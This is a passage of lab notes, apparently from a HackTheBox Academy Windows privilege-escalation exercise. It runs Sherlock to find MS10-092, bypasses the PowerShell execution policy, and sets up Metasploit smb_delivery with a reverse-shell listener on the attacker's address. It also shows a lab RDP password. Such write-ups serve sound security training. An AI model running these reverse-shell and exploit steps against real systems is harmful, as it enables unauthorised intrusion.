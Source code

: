 ```
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

## LAB

xfreerdp /v:10.129.65.110 /u:htb-student /p:HTB_@cademy_stdnt!

PS C:\Tools> Set-ExecutionPolicy bypass -Scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y

Import-Module .\Sherlock.ps1
Find-AllVulns

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

1) Generate a local dll and listening for reverse shell

```
sudo msfconsole -q

exploit(windows/smb/smb_delivery) > search smb_delivery
use exploit/windows/smb/smb_delivery

msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0

set LHOST tun0
set SRVHOST tun0

exploit

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.15.97:4444 
[*] Server is running. Listening on 10.10.15.97:445
[*] Server started.
[*] Run the following command on the target machine:
```